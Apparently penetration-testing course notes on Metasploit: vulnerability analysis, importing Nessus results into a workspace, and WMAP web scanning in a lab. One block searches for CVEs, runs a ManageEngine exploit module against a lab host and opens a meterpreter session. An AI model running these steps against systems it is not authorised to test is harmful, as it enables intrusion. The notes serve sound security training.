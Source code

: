 **Third method**

```bash
msf6> analyze
msf6> vulns
```

### Nessus Vulnerability Scan

#### Definition

* Nessus is a proprietary scanner developed by Tenable.
* We can utilize Nessus to perform a vulnerability scan on a target system, after which, we can import the Nessus results in to MSF analysis and exploitation.
* Nessus automates the process of identifying vulnerabilities and also provides us with information pertinent to a vulnerability liek the CVE code.
* We can use the free version of Nessus, which allows us to scan upto 16 IPs.

```bash
msf6> workspace -a nessus-scan
msf6> db_import /home/kali/Downloads/MS3_fkthis.nessus
msf6> hosts
msf6> services
msf6> vulns                    # a lot of vulnerabilities
msf6> vulns -p 445             # filter vulnerabilities
msf6> search cve:2017 name:smb # 1st search way 
msf6> search MS12-020          # 2nd search way
msf6> search cve:2015 name:ManageEngine

msf6> use windows/http/manageengine_connectionid_write
msf6> set rhosts 10.10.10.4
msf6> run

meterpreter> sysinfo
```

### WMAP

#### Definition

* WMAP is web application vulnerability scanner that can be sued to automate web server enumeration and scan web applications for vulnerabilities.
* WMAP is available as an MSF plugin and can be loaded directly into MSF.
* WMAP is fully integrated with MSF, which consequently allows us to preform web app vulnerability scanning from within the MSF.

#### Lab

```bash
root@attackdefense> ifconfig
root@attackdefense> service postgresql start && msfconsole

msf6> workspace -a wmap-scan
msf6> setg rhosts 192.31.11.3
msf6> load wmap
msf6> wmap_sites -a 192.31.11.3
msf6> wmap_sites -l      # list sites
msf6> wmap_targets -d http://192.31.11.3/
msf6> wmap_targets -t 1  # the site index
msf6> wmap_targets -l    # list targets

msf6> wmap_run -t
```
